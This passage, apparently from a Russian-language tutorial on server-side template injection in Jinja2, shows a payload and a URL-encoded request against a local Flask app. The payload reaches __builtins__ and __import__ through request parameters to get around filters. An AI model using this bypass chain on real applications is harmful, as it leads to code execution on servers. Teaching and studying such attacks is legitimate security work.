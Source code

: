 ![](./img/img_8.png)
По аналогии продолжаем наследоваться:
```python
{% if self[request.args.get("in")][request.args.get("gl")][request.args.get('buins')][request.args.get('im')] %} Hello {% endif %}
```
Url будет выглядеть теперь так:
```http
http://127.0.0.1:9001/get_user_info?name=%7b%25%20if%20self%5brequest.args.get(%22in%22)%5d%5brequest.args.get(%22gl%22)%5d%5brequest.args.get('buins')%5d%5brequest.args.get('im')%5d%20%25%7d%20Hello%20%7b%25%20endif%20%25%7d&age=26&description=something&in=__init__&gl=__globals__&buins=__builtins__&im=__import__
```
![](./img/img_9.png)